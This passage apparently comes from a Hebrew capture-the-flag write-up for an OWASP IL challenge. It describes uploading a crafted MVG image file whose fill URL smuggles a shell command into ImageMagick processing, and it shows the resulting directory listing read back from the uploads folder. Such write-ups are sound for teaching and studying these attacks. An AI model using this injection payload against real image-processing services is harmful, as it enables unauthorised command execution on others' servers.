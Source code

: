 <p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>נייצר קובץ </span><span
lang=EN-US dir=LTR>MVG</span><span dir=RTL></span><span lang=HE
style='font-family:"Arial",sans-serif'><span dir=RTL></span> זדוני לפי ההוראות,
ונעלה לאתר:</span></p>

<p class=MsoNormal style='margin-bottom:0cm;margin-bottom:.0001pt'><span
lang=EN-US style='font-family:"Courier New"'>push graphic-context</span></p>

<p class=MsoNormal style='margin-bottom:0cm;margin-bottom:.0001pt'><span
lang=EN-US style='font-family:"Courier New"'>viewbox 0 0 640 480</span></p>

<p class=MsoNormal style='margin-bottom:0cm;margin-bottom:.0001pt'><span
lang=EN-US style='font-family:"Courier New"'>fill 'url(https://example.com/image.jpg&quot;|ls
-la&gt;/tmp/e1.txt;&quot;)</span><span dir=RTL></span><span lang=HE dir=RTL
style='font-family:"Courier New"'><span dir=RTL></span>'</span></p>

<p class=MsoNormal style='margin-bottom:0cm;margin-bottom:.0001pt'><span
lang=EN-US style='font-family:"Courier New"'>pop graphic-context</span></p>

<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>&nbsp;</span></p>

<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>האתר מסכים לקבל את
הקובץ הזה, ומציע להוריד חזרה את התוצאה בכתובת </span><span class=MsoHyperlink><span
lang=EN-US><a
href="http://challenges.owaspil.ctf.today:8090/uploads/tmpdmalOL.png"><span
dir=LTR>http://challenges.owaspil.ctf.today:8090/uploads/tmpdmalOL.png</span></a></span></span><span
dir=RTL></span><span lang=HE style='font-family:"Arial",sans-serif'><span
dir=RTL></span>.</span></p>

<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>מדובר בקובץ תמונה
ריק (תמונה לבנה). למרבה המזל, אם ננסה לגשת ל-</span><span lang=EN-US dir=LTR>e1.txt</span><span
dir=RTL></span><span lang=EN-US style='font-family:"Arial",sans-serif'><span
dir=RTL></span> </span><span lang=HE style='font-family:"Arial",sans-serif'>(שיצרנו
באמצעות החולשה) מתוך תיקיית </span><span lang=EN-US dir=LTR>uploads</span><span
dir=RTL></span><span lang=HE style='font-family:"Arial",sans-serif'><span
dir=RTL></span>, נקבל את התוכן שרצינו:</span></p>

<pre><span lang=en-IL>total 20</span></pre><pre><span lang=en-IL>dr-xr-xr-x 1 root root 4096 Aug 29 13:52 .</span></pre><pre><span
lang=en-IL>drwxr-xr-x 1 root root 4096 Aug 29 13:52 ..</span></pre><pre><span
lang=en-IL>-r-xr-xr-x 1 root root 3663 Aug 27 10:40 app.py</span></pre><pre><span
lang=en-IL>-r-xr-xr-x 1 root root   14 Aug 27 10:40 requirements.txt</span></pre><pre><span
lang=en-IL>dr-xr-xr-x 1 root root 4096 Aug 29 13:52 templates</span></pre>

<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>&nbsp;</span></p>

<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>כעת ניתן לקרוא את
הקובץ </span><span lang=EN-US dir=LTR>app.py</span><span dir=RTL></span><span
lang=HE style='font-family:"Arial",sans-serif'><span dir=RTL></span>, למשל, </span><span
lang=HE style='font-family:"Arial",sans-serif'>בעזרת פקודה אחרת:</span></p>
